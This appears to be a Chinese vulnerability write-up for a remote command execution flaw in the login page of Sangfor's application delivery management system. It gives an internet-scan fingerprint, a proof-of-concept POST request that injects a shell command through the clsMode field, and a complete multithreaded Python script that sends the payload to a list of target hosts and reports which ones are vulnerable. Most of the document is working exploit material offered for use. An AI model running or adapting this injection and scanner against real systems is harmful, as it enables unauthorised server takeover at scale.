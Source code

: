 # 深信服 应用交付管理系统 login 远程命令执行漏洞

## 漏洞描述

深信服 应用交付管理系统 login 存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限，执行任意命令

## 漏洞影响

深信服 应用交付管理系统 7.0.8-7.0.8R5

## 网络测绘

fid="iaytNA57019/kADk8Nev7g=="

## 漏洞复现

登陆页面

![img](https://peiqi.wgpsec.org/assets/img/1675307887742-7f1d91ab-0fc3-4b09-b434-70466ec13871.d5bf6012.png)

验证POC

```plain
POST /rep/login 

clsMode=cls_mode_login%0Als%0A&index=index&log_type=report&loginType=account&page=login&rnd=0&userID=admin&userPsw=123
```



![img](https://peiqi.wgpsec.org/assets/img/1675307928621-8722e4f7-ddd8-44ee-9010-4f9189a12081.ae1c4259.png)

## 脚本使用

```
python poc.py -f 1.txt -t 50
```

```
  -f FILEPATH, --filepath FILEPATH
                        包含目标列表的txt文件路径
  -t THREADS, --threads THREADS
                        线程数，默认为10
```

txt格式如下：

![image-20230813111759108](https://img2023.cnblogs.com/blog/2411575/202308/2411575-20230813111840487-1133188023.png)

脚本如下：

```python
import argparse
import warnings
from concurrent.futures import ThreadPoolExecutor

import requests

NUM_THREADS = 10  # 默认线程数为10


def send_post_request(url, data):
    hd = {
        "Host": url,
        "Connection": "close",
        "sec-ch-ua": "\"Not/A)Brand\";v=\"99\", \"Google Chrome\";v=\"115\", \"Chromium\";v=\"115\"",
        "Accept": "*/*",
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "X-Requested-With": "XMLHttpRequest",
        "sec-ch-ua-mobile": "?0",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36",
        "sec-ch-ua-platform": "\"Windows\"",
        "Origin": f"https://{url}",
        "Sec-Fetch-Site": "same-origin",
        "Sec-Fetch-Mode": "cors",
        "Sec-Fetch-Dest": "empty",
        "Referer": f"https://{url}/rep/login",
        "Accept-Encoding": "gzip, deflate",
        "Accept-Language": "zh-CN,zh;q=0.9"
    }

    try:
        response = requests.post(f"https://{url}/rep/login", headers=hd, data=data, verify=False)
        return response.text
    except requests.exceptions.RequestException as e:
        return str(e)


def scan_url(url):
    data = "clsMode=cls_mode_login%0Als%0A&index=index&log_type=report&loginType=account&page=login&rnd=0&userID=admin&userPsw=123"
    response = send_post_request(url, data)
    if "etc" in response:
        print(url + " is vuln!")


def main():
    parser = argparse.ArgumentParser(description='发送POST请求的命令行工具')
    parser.add_argument('-f', '--filepath', required=True, help='包含URL列表的txt文件路径')
    parser.add_argument('-t', '--threads', type=int, default=NUM_THREADS, help='线程数，默认为10')
    args = parser.parse_args()

    filepath = args.filepath
    threads = min(args.threads, 100)  # 最大线程数为100
    data = "clsMode=cls_mode_login%0Als%0A&index=index&log_type=report&loginType=account&page=login&rnd=0&userID=admin&userPsw=123"
    warnings.filterwarnings("ignore")
    try:
        with open(filepath, 'r') as file:
            urls = file.read().splitlines()
    except FileNotFoundError:
        print(f"文件 {filepath} 不存在")
        return

    with ThreadPoolExecutor(max_workers=threads) as executor:
        executor.map(scan_url, urls)


if __name__ == '__main__':
    main()
```

